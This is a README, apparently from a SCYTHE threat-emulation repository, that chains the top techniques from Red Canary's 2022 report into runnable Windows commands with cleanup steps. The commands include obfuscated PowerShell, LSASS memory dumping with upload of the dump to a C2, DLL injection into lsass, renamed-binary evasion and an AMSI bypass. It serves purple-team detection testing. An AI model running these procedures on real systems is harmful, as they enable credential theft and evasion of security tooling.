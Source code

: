 # Red Canary - Emulation Plan

Red Canary is legitimate company and not a threat actor. However, they release actionable Cyber Threat Intelligece and hence why we have added it to our community threats GitHub.

## 2022 Threat Detection Report
Red Canary released the 2022 Threat Detection Report in March 2022 and it includes the top techniques they observed over the past year: https://redcanary.com/threat-detection-report/techniques/ 

### Automated Emulation with SCYTHE
This threat chains together the top techniques from the Red Canary 2022 Threat Detection Report.

1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/RedCanary
4. Create a new campaign `RedCanary2022TDR` with HTTPS
5. Import from Existing Threat: `RedCanary2022TDR`
6. Launch the Campaign

### Manual Emulation with SCYTHE
You can manually execute each technique provided in the Red Canary 2022 Threat Detection Report on a SCYTHE shell:
```
loader --load run
run powershell.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==
run cmd.exe "%LOCALAPPDATA:~-3,1%md /c echo Hello, from CMD! > hello.txt & type hello.txt"
run rundll32.exe pcwutl.dll,LaunchApplication C:\Windows\System32\notepad.exe
run wmic /node:"127.0.0.1" process call create "calc.exe"
run powershell (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt') | Out-File LICENSE.txt; Invoke-Item LICENSE.txt
run schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR "cmd /c date /T > C:\Windows\Temp\current_date.txt"
loader --load downloader
downloader --src VFS:/shared/threats/RedCanary/obfuscation.ps1 --dest .\obfuscation.ps1
run powershell Set-ExecutionPolicy Bypass -Scope Process -Force ; .\obfuscation.ps1
run cmd.exe /c copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Temp\notepad.exe
run cmd.exe /c C:\Windows\Temp\notepad.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==
downloader --src VFS:/shared/threats/RedCanary/tweet.ps1 --dest .\tweet.ps1
run powershell Set-ExecutionPolicy Bypass -Scope Process -Force ; .\tweet.ps1
run cmd.exe /c copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe
run cmd.exe /c copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
run cmd.exe /c %APPDATA%\updater.exe -Command exit
STEP = CLEANUP
run wmic process where name="notepad.exe" delete
run wmic process where name="Calculator.exe" delete
run cmd.exe /c del hello.txt
run cmd.exe /c del tweet.ps1
run cmd.exe /c del obfuscation.ps1
run cmd.exe /c del LICENSE.txt
run cmd.exe /c del C:\Windows\Temp\notepad.exe
run cmd.exe /c del C:\Windows\Temp\svchost.exe
run cmd.exe /c del %APPDATA%\updater.exe
run cmd.exe /c del %APPDATA%\amsi.dll
run schtasks /Delete /TN CMDTestTask /F
STEP = REQUIRES PRIV
controller --integrity
If step 31 does not contain "High" goto step 38
run powershell rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full
loader --load uploader
uploader --remotepath C:\Windows\Temp\lsass.dmp
run cmd.exe /c del C:\Windows\Temp\lsass.dmp
run powershell mavinject.exe ((Get-Process lsass).Id) /INJECTRUNNING C:\Windows\System32\vbscript.dll
controller --shutdown
```

### Manual Emulation without SCYTHE
You can manually execute each technique provided in the Red Canary 2022 Threat Detection Report on a target host by copying and pasting these procedures:
1.  `powershell.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==`
    * Execute this from a non-privileged cmd.exe
2. `%LOCALAPPDATA:~-3,1%md /c echo Hello, from CMD! > hello.txt & type hello.txt`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del hello.txt` 
3. `rundll32.exe pcwutl.dll,LaunchApplication C:\Windows\System32\notepad.exe`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `wmic process where name="notepad.exe" delete`
4. `wmic /node:"127.0.0.1" process call create “calc.exe”`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `wmic process where name="calc.exe" delete`
    * Note the version of Windows may call the process `Calculator.exe` or `CalculatorApp.exe`
5. `rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full`
    * Execute this from a privileged cmd.exe
    * Clean up by executing: `del C:\Windows\Temp\lsass.dmp`     
6. `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt') | Out-File LICENSE.txt; Invoke-Item LICENSE.txt`
    * Execute this from a non-privileged powershell.exe
    * Clean up by executing: `wmic process where name="notepad.exe" delete`   
    * Clean up by executing: `del LICENSE.txt`
7. `mavinject.exe ((Get-Process lsass).Id) /INJECTRUNNING C:\Windows\System32\vbscript.dll`
    * Execute this from a privileged powershell.exe
    * Clean up by rebooting
8. `schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR ""cmd /c date /T > C:\Windows\Temp\current_date.txt"`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `schtasks /Delete /TN CMDTestTask /F`
9. ```$cmDwhy =[TyPe]("{0}{1}" -f 'S','TrING')  ;   $pz2Sb0  =[TYpE]("{1}{0}{2}"-f'nv','cO','ert')  ;  &("{0}{2}{3}{1}{4}" -f'In','SiO','vOKe-EXp','ReS','n') (  (&("{1}{2}{0}"-f'blE','gET-','vaRIA')  ('CMdw'+'h'+'y'))."v`ALUe"::("{1}{0}" -f'iN','jO').Invoke('',( (127, 162,151, 164,145 ,55 , 110 ,157 ,163 , 164 ,40,47, 110 , 145 ,154, 154 ,157 , 54 ,40, 146, 162 , 157,155 ,40, 120, 157 ,167,145 , 162 ,123,150 ,145 , 154 , 154 , 41,47)| .('%') { ( [CHAR] (  $Pz2sB0::"t`OinT`16"(( [sTring]${_}) ,8)))})) )```
    * Execute this from a non-privileged powershell.exe
10. `copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Temp\notepad.exe` & `C:\Windows\Temp\notepad.exe -e JgAgACgAZwBjAG0AIAAoACcAaQBlAHsAMAB9ACcAIAAtAGYAIAAnAHgAJwApACkAIAAoACIAVwByACIAKwAiAGkAdAAiACsAIgBlAC0ASAAiACsAIgBvAHMAdAAgACcASAAiACsAIgBlAGwAIgArACIAbABvACwAIABmAHIAIgArACIAbwBtACAAUAAiACsAIgBvAHcAIgArACIAZQByAFMAIgArACIAaAAiACsAIgBlAGwAbAAhACcAIgApAA==`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del C:\Windows\Temp\notepad.exe`
11. `Set-ExecutionPolicy Bypass -Scope Process -Force ; .\tweet.ps1`
    * Download tweet.ps1 to the working directory 
    * Execute this from a non-privileged powershell.exe
    * Clean up by executing: `del $Env:windir\Temp\svchost.exe`
12. `copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe` & `copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll` & `%APPDATA%\updater.exe -Command exit`
    * Execute this from a non-privileged cmd.exe
    * Clean up by executing: `del %APPDATA%\updater.exe` & `del %APPDATA%\amsi.dll`